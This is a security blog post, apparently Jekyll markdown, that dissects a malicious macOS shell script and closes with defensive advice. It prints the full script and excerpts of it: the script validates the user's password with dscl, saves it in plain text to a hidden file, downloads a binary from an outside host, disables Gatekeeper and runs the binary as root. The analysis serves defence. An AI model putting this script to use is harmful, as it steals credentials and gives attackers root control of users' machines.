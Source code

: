 ```yaml
---
layout: post
title: "Anatomy of a macOS Attack: Deconstructing a Malicious Shell Script"
date: 2025-07-20
tags: [security, macos, bash, devops, malware, incident]
description: "A chilling breakdown of a sophisticated macOS shell script attack, revealing how easily trust can be exploited for total system compromise. Learn to deconstruct and defend against similar threats."
image: "/assets/images/blog200725.png" # Path to the specific image for this blog post
og_type: "article" # Explicitly set for blog posts
---
```


## Introduction

As DevOps and backend engineers, we live in the terminal. We use `curl`, run installation scripts, and automate tasks with a level of trust in our tools. But this familiarity can lead to complacency. I recently came across a malicious script that serves as a chilling reminder of how easily that trust can be exploited to achieve total system compromise.

This script isn't just a proof-of-concept; it's a well-crafted piece of malware designed to trick a technical user into handing over their password and giving an attacker full root access. Let's break it down line-by-line.

## The Full Malicious Script

Here is the complete script captured from the attack. At first glance, some parts might look like a standard, albeit poorly written, installer. But the devil is in the details.

```bash
#!/bin/bash

BASE_URL="[https://wireshield.pro](https://wireshield.pro)"
mkdir -p ~/.autologin

echo "Please enter your password to continue installation"
CORRECT_PASS=""
while true; do
    echo -n "Password:"
    read -s USER_PASSWORD
    echo

    dscl /Local/Default -authonly ${SUDO_USER:-${USER}} $USER_PASSWORD > /dev/null 2>&1

    if [[ $? -eq 0 ]]; then
        echo "$USER_PASSWORD" > ~/.autologin/pass.txt
        CORRECT_PASS="$USER_PASSWORD"
        break
    else
        echo "Sorry, try again."
    fi
done

echo "$CORRECT_PASS" | sudo -S echo ""

arch=$(uname -m)

if [[ $arch == "x86_64" ]]; then
    URL="$BASE_URL/x64"
elif [[ $arch == "arm64" ]]; then
    URL="$BASE_URL/arm64"
else
    echo "Unknown architecture: $arch"
    exit 1
fi

FILE=$(basename "$URL")
echo "Downloading $FILE from $URL..."
curl -O "$URL"

if [ $? -ne 0 ]; then
    echo "Error downloading the file."
    exit 1
fi

sudo spctl --master-disable
echo "Running the application..."
chmod +x "$FILE"
sudo open "$FILE"
sudo spctl --master-enable
````

-----

## Step-by-Step Breakdown

Let's dissect what this script is actually doing.

### 1\. The Setup: Creating a Hiding Spot

```bash
BASE_URL="[https://wireshield.pro](https://wireshield.pro)"
mkdir -p ~/.autologin
```

The script starts by defining its command and control (C2) server. Then, it immediately creates a **hidden directory** (`.autologin`) in the user's home folder. Using a `.` prefix hides it from a standard `ls` command, making it a perfect place to stash stolen data.

### 2\. The Lure: The Password Prompt

```bash
while true; do
    echo -n "Password:"
    read -s USER_PASSWORD
    ...
done
```

This is pure **social engineering**. The script mimics a legitimate installer asking for administrative rights. The `read -s` command ensures the password isn't echoed to the terminal, adding to the illusion of a secure process.

### 3\. The Trick: Local Password Validation

```bash
dscl /Local/Default -authonly ${SUDO_USER:-${USER}} $USER_PASSWORD > /dev/null 2>&1
if [[ $? -eq 0 ]]; then
    ...
```

This is the most clever part of the script. It uses `dscl`, the native macOS Directory Service command-line utility, to **check if the password is correct**. The `-authonly` flag does this without actually logging in or changing users. Because it’s a legitimate system tool, it doesn't raise suspicion. The script then checks the exit code (`$?`). A `0` means success—the user entered the correct password.

### 4\. The Theft: Capturing the Credentials

```bash
echo "$USER_PASSWORD" > ~/.autologin/pass.txt
break
```

This is the moment the attack succeeds. Once the password is validated, the script **writes it in plain text** into the `pass.txt` file inside the hidden directory it created earlier. It now has the user's password.

### 5\. The Payload: Escalation and Execution

```bash
# Determine architecture (x86_64 or arm64) and download the binary
URL="$BASE_URL/x64" # or /arm64
curl -O "$URL"

# Disable Gatekeeper to run unverified apps
sudo spctl --master-disable

# Make the binary executable and run it with root privileges
chmod +x "$FILE"
sudo open "$FILE"

# Re-enable Gatekeeper to cover its tracks
sudo spctl --master-enable
```

With the password captured, the script proceeds to:

1.  Determine the Mac's architecture (`uname -m`).
2.  Download a malicious binary (`x64` or `arm64`) from the C2 server.
3.  **Disable Gatekeeper** (`spctl --master-disable`), macOS's core security feature that prevents unverified apps from running.
4.  **Run the malicious binary with `sudo`**, giving the attacker full root control.
5.  Finally, it re-enables Gatekeeper to hide the fact that system security settings were ever changed.

-----

## Key Takeaways for Developers

This script is a masterclass in exploiting trust and using a system's own tools against it.

  * **Never blindly trust an installer script.** The convenience of `curl | sh` is not worth the risk of total system compromise.
  * **Download and read first.** Always download a script to a local file and read every line before executing it. If you had read this one, the `echo "$USER_PASSWORD" > ...` line would have been a massive red flag.
  * **Question every password prompt.** A script asking for your main user password should be treated with extreme suspicion.
  * **Monitor your system.** Tools like `Little Snitch` can alert you to unexpected outgoing network connections, which could have flagged the download of the `x64` binary.

## References & Further Reading

  * This analysis is based on the incident bravely shared by a security professional. The original video detailing the attack can be found here: [I got hacked](https://www.youtube.com/watch?v=Y1BopTNVoZE).

## Conclusion

This attack highlights a critical vulnerability that isn't in the code, but in human behavior. As engineers, our comfort with the command line is an asset, but it can be turned against us. Stay skeptical, stay vigilant, and **always read the code**.

